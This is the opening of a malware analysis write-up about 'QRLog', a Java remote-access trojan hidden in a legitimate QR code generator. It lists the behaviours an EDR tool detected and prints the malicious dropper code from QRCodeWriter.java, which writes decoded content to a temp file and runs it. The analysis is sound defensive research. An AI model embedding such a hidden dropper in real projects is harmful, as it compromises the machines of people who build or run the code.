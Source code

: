 In February 2023 I first encountered a sample of the QRLog malware _in the wild_. I named it like this because it hides itself among the files of a legit QR code generator written in Java, and creates a file with the same name for persistence.

It is a simple RAT (_Remote Access Tool_) malware that attempts to open a _reverse shell_ granting the attacker privileged access to the infected computer.

At the time of writing this research, there are no public mentions of this malware or its components, nor are there any detections by antivirus software or security platforms, which indicates that we are dealing with a novel sample [[1]](#references). However, some intelligence platforms such as CMC (Vietnam) have marked the original link to the file as suspicious [[1]](#references), and in others it is possible to find mentions of part of its C2 infrastructure (associated with Cobalt Strike and whose reuse is common)[[2][3]](#references).

<a name="behaviour"></a>
## Behaviour

The project is functional and does not present suspicious features at first glance. However, a runtime behavior analysis by Crowdstrike Falcon detected - and blocked - a number of potentially malicious actions:
- Reading the network configuration using the `ifconfig` command
- Sending a single ICMP `ping` request to an external server
- Creating temporary directories with a series of random numbers in their name
- The writing of a `.java` file in the temporary directory (QRLog.java) and its subsequent execution
- The writing of other files with `.java` and `.dat` extensions in said temporary directories (prefTmp.java, p.dat) and their subsequent execution
- The deletion of said files

In the absence of material on this malware, it was decided to proceed with a manual analysis. The search for text strings that refer to the names of the created files yielded positive results:

```bash
#Search for "qrlog", referencing QRLog.java file which is created on runtime
> grep -rnwi "qrlog"

[...]/google/zxing/qrcode/QRCodeWriter.java:87:errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
[...]/google/zxing/qrcode/QRCodeWriter.java:89:errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
```
The `QRCodeWriter.java` file is what originally created the `QRLog.java` file and is a good candidate to start the analysis.
  
<a name="analysis"></a>
## Source Code Analysis

Looking at the `QRCodeWriter.java` file (available for individual download in the [Samples](#samples) section) the following function immediately catches your eye:
  
```java
try{
        String os = System.getProperty("os.name");
        String errPath;
        
        if (os.contains("Windows"))
            errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
        else
            errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
        FileOutputStream qrW = new FileOutputStream(errPath);
        qrW.write(b64dec);
        Runtime.getRuntime().exec("java " + errPath);
    }
    catch (IOException ex){   
    }
```
